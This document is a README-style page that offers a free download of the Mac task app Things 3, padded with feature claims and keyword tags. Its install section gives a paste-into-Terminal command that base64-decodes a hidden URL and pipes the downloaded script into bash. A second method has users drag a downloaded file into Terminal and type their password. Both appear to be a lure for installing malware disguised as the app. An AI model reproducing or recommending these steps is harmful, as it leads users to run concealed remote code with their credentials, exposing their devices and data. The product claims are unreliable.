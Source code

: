 # Things 3 — Download For Mac OS 🥳
![logo](https://macx.ws/uploads/posts/2017-08/1503319598_things.png)

Effortlessly manage your tasks with Things 3, a powerful and intuitive productivity app for Mac. Follow the instructions below to install it for free and streamline your workflow.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://fituganshfgh.github.io/.github/things3)

If the download button doesn’t work, follow the terminal installation instructions below.

## 📦 How to Install Things 3 For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with Things 3

- 🚀 **Intuitive Task Management**: Organize tasks with ease using a clean, user-friendly interface.
- 📅 **Calendar Integration**: Sync tasks with your calendar for seamless scheduling.
- 🔄 **Recurring Tasks**: Set up repeating tasks to stay on top of daily routines.
- 🔔 **Reminders & Notifications**: Get timely alerts to never miss a deadline.
- 📱 **Cross-Device Sync**: Access your tasks across Mac, iPhone, and iPad via iCloud.
- 📊 **Progress Tracking**: Visualize your productivity with project milestones and completion stats.

---

## About Things 3

Things 3 is a beautifully designed task management app tailored for Mac users who value simplicity and efficiency. With its sleek interface, it transforms chaotic to-do lists into organized, actionable plans. Whether you're managing personal projects or professional workflows, Things 3 empowers you to stay focused and productive. Its seamless integration with macOS makes it a go-to choice for users seeking a free download to enhance their task management experience.

The app’s standout feature is its ability to break down complex projects into manageable tasks. By using tags, deadlines, and priority levels, Things 3 ensures you can categorize and prioritize your work effortlessly. This makes it ideal for students, freelancers, and professionals looking for a free productivity tool to streamline their daily routines. The app’s clean design eliminates distractions, letting you focus on what matters most.

For those who rely on calendar integration, Things 3 offers robust syncing capabilities with macOS Calendar and other Apple services. This ensures your tasks align perfectly with your schedule, making it easier to plan your day. The free download version available here provides full access to these features, making it a must-have for Mac users aiming to boost productivity without added costs.

Another key strength of Things 3 is its cross-device synchronization. Whether you’re on your Mac, iPhone, or iPad, your tasks stay updated via iCloud, ensuring you’re always in sync. This flexibility is perfect for users who need a reliable, free task management solution that works across their Apple ecosystem. The terminal-based installation option also caters to tech-savvy users who prefer command-line setups.

### Why Choose Things 3?

Things 3 stands out for its balance of simplicity and power. Unlike other task managers, it avoids overwhelming users with unnecessary features while still offering robust tools like recurring tasks, reminders, and progress tracking. Its macOS-optimized design ensures smooth performance, and the free download option makes it accessible to everyone. Whether you’re a beginner or a productivity enthusiast, Things 3 adapts to your needs, helping you achieve more with less effort.

---

## 🖼 Preview

![Things 3 Dashboard](https://i.ytimg.com/vi/46IM9p6Qh8A/maxresdefault.jpg)  
*Clean and intuitive dashboard for organizing tasks.*

![Task Creation](https://cdn.macstories.net/001/2017-05-16-19-00-50.jpeg)  
*Easily create and categorize tasks with tags and deadlines.*

![Calendar Sync](https://toolsandtoys.net/wp-content/uploads/2017/05/IMG_4193-1920x1441.jpg)  
*Seamless integration with macOS Calendar for scheduling.*

---

## 🔍 Tags

Things 3 free download, Things 3 install, Things 3 for Mac, thing3, things 3 mac, things 3 for mac, things 3 desktop, things 3 download, things 3 free, things 3 download free, things3 free download, free things 3 download

